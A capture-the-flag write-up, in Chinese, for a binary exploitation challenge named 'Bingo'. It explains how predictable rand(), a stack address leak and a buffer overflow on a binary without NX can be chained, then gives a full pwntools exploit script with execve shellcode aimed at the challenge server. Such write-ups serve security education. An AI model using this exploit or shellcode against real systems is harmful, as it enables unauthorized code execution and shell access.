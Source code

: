 ## Bingo (200)
Credits to my teammates.

### solution
##### simulation
由於srand(0)，rand()是predictable的，所以用script模擬可以知道正確號碼。

##### information leak
因為輸入存在STACK上，而printf是用%s，所以最後一個數字輸入AAAA會leak出rbp，得到STACK ADDRESS

##### buffer overflow
贏BINGO後，可以輸入訊息，會buffer overflow，但只能蓋到ret address，但是由於這題沒有NX，可以輸入SHELLCODE，但是SHELLCODE也只有12個BYTE的位置。經果觀察，發現執行到RET時的REGISTER，剛好適合呼叫SYSCALL READ。所以只要RET回STACK上，執行SHELL CODE，更改RDX，就可以執行第二次輸入，把整個SHELLCODE送進程式。

### script
```python
from pwn import *

import ctypes

#r = process("./Bingo")
r = remote('35.201.132.60' ,12001)

r.recvuntil('numbers:')
LIBC = ctypes.cdll.LoadLibrary('./libc_64.so.6')
LIBC.srand(0)
for i in range(15):
	r.sendline(str(LIBC.rand()%200))
r.send('bbbb')
r.recvuntil('b'*4)
st = u64(r.recvuntil(' ')[:-1].ljust(8,'\x00'))
print hex(st)
r.recvuntil('others:')
tar = st - 0x14
ass = asm("mov rdx,0xfffffff;syscall;ret;",arch="amd64")
print ass 
#r.interactive()
r.send(ass+'aa'+p64(tar)[0:7])
#r.sendline('a'*40)
shell = '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'
r.sendline('aa'+p64(st+8)+shell)
r.interactive()
```
